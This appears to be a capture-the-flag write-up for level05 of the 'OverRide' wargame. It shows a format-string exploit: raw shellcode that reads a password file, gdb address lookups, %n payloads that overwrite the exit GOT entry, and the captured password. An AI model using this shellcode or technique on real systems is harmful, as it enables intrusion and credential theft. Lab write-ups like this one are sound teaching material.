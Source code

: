 Again, it's a string format exploit. 
We start by exporting our shellcode into an environment variable, we already used it quite a few times.

```bash
`export SHELLCODE=`python -c 'print("\x90" * 30 + "\x31\xc0\x31\xdb\x31\xc9\x31\xd2\xeb\x32\x5b\xb0\x05\x31\xc9\xcd\x80\x89\xc6\xeb\x06\xb0\x01\x31\xdb\xcd\x80\x89\xf3\xb0\x03\x83\xec\x01\x8d\x0c\x24\xb2\x01\xcd\x80\x31\xdb\x39\xc3\x74\xe6\xb0\x04\xb3\x01\xb2\x01\xcd\x80\x83\xc4\x01\xeb\xdf\xe8\xc9\xff\xff\xff/home/users/level06/.pass")'`


```

We then check the address of the shellcode:

```assembly
(gdb) x/100x *environ
0xffffd790:	0x505f434c	0x52455041	0x5f72663d	0x552e5246
0xffffd7a0:	0x382d4654	0x5f434c00	0x52444441	0x3d535345
0xffffd7b0:	0x465f7266	0x54552e52	0x00382d46	0x4d5f434c
0xffffd7c0:	0x54454e4f	0x3d595241	0x465f7266	0x54552e52
0xffffd7d0:	0x00382d46	0x4c454853	0x444f434c	0x90903d45
0xffffd7e0:	0x90909090	0x90909090	0x90909090	0x90909090
[...]
```

And we use the exploit to see where our string can be found in the stack:

```bash
level05@OverRide:~$ cat <(python -c 'print("AAAA" + " %p " * 15)') | ./level05 
aaaa 0x64  0xf7fcfac0  0xf7ec3af9  0xffffd56f  0xffffd56e  (nil)  0xffffffff  0xffffd5f4  0xf7fdb000  0x61616161  0x20702520  0x20702520  0x20702520  0x20702520  0x20702520 
```

We check where we want to write the address of our environment variable :

```assembly
(gdb) disas exit
Dump of assembler code for function exit@plt:
   0x08048370 <+0>:	jmp    *0x80497e0
   [...]
```

And we go for it : 

```bash
level05@OverRide:~$ cat <(python -c 'print("\xe0\x97\x04\x08" + "%4294957020x" + "%10$n" + " -> %10$p")') | ./level05 
�level05@OverRide:~$ 
```

There is an issue, and it's quite strange because it doesn't print anything....
And it doesn't work because `4294957020` is greater than int32_t max !
So we need to write 2 bytes by 2 bytes:

```bash
cat <(python -c 'print("\xe0\x97\x04\x08" + "\xe2\x97\x04\x08" + "%55256x" + "%10$n" + "%10271x" + "%11$n")') | ./level05
[...]
h4GtNnaMs2kZFN92ymTr2DcJHAzMfzLW25Ep59mq
```

```bash
su level6
h4GtNnaMs2kZFN92ymTr2DcJHAzMfzLW25Ep59mq
```

